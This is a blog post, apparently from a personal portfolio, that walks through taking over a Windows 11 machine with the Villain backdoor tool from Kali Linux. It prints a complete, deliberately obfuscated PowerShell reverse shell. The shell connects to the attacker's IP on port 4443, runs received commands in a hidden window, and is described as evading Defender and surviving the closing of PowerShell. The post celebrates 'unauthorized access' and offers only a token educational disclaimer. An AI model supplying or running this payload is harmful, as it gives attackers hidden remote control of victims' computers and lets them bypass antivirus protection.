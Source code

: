 ```yaml
---
title: Hacking Window 11
author: Radeel Ahmad
pubDatetime: 2022-07-05T02:05:51Z
featured: false
draft: false
tags:
  - hacking
  - window hacking
  - window 11
description: "Hacking Window 11 Using PowerShell Script"
---
```


## Requirements
- Kali Linux Machine (attacking machine)
- Windows 11 (victim machine)
- Villain (In Kali Machine)

## Let’s Start…..
Open Kali machine and open Firefox, then download the [**Villain**](https://github.com/t3l3machus/Villain).

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/1.png" alt="Wifi hacking">

Now, open Villain after downloading.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/2.png" alt="Wifi hacking">

Install the requirement for the tool using the following command.
```bash
pip3 install -r requirements.txt
```
After the installation, we start the villain.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/3.png" alt="Wifi hacking">

command: **python3 Villain.py**

## Important

The villain is a Windows and Linux backdoor generator and multi-session handler that allows users to connect with sibling servers (other machines running Villain) and share their backdoor sessions, which is handy for working as a team.

Villain has a built-in auto-obfuscate payload function to assist users bypassing AV solutions (for Windows payloads). As a result, payloads are undetected (for the time being).

## Victim side

We run the script in the Powers Shell of the victim’s system (Window 11 Pro)

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/4.png" alt="Wifi hacking">

```bash
Start-Process $PSHOME\powershell.exe -ArgumentList {$client = N''e""w-O'b'je"c"t System.Net.Sockets.TCPClient('YOUR IP',4443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (N''e'w'-O''b""je'c't -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (i''e""x $data 2>&1 | O""u''t-S''t""ring );$sendback2 = $sendback + 'PS ' + (p""w''d).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()} -WindowStyle Hidden
```


In this script enter the IP of your kali machine by using `ifconfig` command you see the IP of kali machine.

Fully updated. Windows 11. Everything is turned on for Defender protection and the firewall. Please check the screenshots below for confirmation.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/5.png" alt="Wifi hacking">
<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/6.png" alt="Wifi hacking">
<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/10.png" alt="Wifi hacking">
## In Kali Linux

After you enter the script, press Enter, and BOOM 🤯! Just kidding, nothing significant will happen on the victim’s machine. However, you will observe a session opening on your terminal.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/7.png" alt="Wifi hacking">

Here we can see `Session ID` — `IP Address` — `OS Type` — `User` — `Status`.

Using the `shell + session ID` command allows you to gain control over the victim’s computer andexecute various commands.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/8.png" alt="Wifi hacking">

We use `systeminfo` command to see the detail of victim’s machine.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/9.png" alt="Wifi hacking">

WE SUCCESSFULLY EXPLOIT VULNERABILITIES WITHIN THE WINDOWS 11 PRO OPERATING SYSTEM TO GAIN UNAUTHORIZED ACCESS 😈.

## Essential Things You Must Know ⚠

- If the victim closes the PowerShell, it won’t stop the reverse shell.
- The PowerShell command remains hidden and isn’t detected by Defender and other advanced antivirus programs.

---
Thank You for reading this article. I hope that you have found this information provided to be valuable and helpful. Use it for educational purpose only…. 🙂
